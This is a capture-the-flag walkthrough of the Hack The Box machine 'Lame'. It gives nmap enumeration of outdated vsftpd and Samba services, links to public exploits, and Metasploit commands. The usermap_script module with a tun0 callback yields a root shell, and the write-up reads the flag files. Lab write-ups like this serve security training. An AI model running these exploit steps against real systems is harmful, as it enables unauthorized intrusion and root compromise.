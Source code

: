 Target: 10.10.10.3

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.3

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-14 23:29 PDT
Nmap scan report for 10.10.10.3
Host is up (0.058s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m46s, deviation: 2h49m44s, median: 44s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-05-15T02:31:12-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

### Findings:Looking for attack vectors

The victim machine runs outdated versions of ftp, ssh, and smbd. 
Look for possible exploits for these three services.


## Foothold:

exploit links:

[vsftpd 2.3.4](https://www.exploit-db.com/exploits/17491)

[samba 3.0.2](https://www.exploit-db.com/exploits/16320)


Metasploit
```
$ msfconsole
```

searching for vsftpd 2.3.4 exploits
```
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.10.3
run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created
```

searching for samba 3.0.2 exploits
```
search samba 3.0.2

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script         2007-05-14       excellent  No     Samba "username map script" Command Execution
   1  exploit/linux/samba/lsa_transnames_heap    2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   2  exploit/solaris/samba/lsa_transnames_heap  2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow


use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set LHOST tun0
run
```

```
id

uid=0(root) gid=0(root)
```

```
cat /home/makis/user.txt

<redacted>
```

```
cat /root/root.txt

<redacted>
```
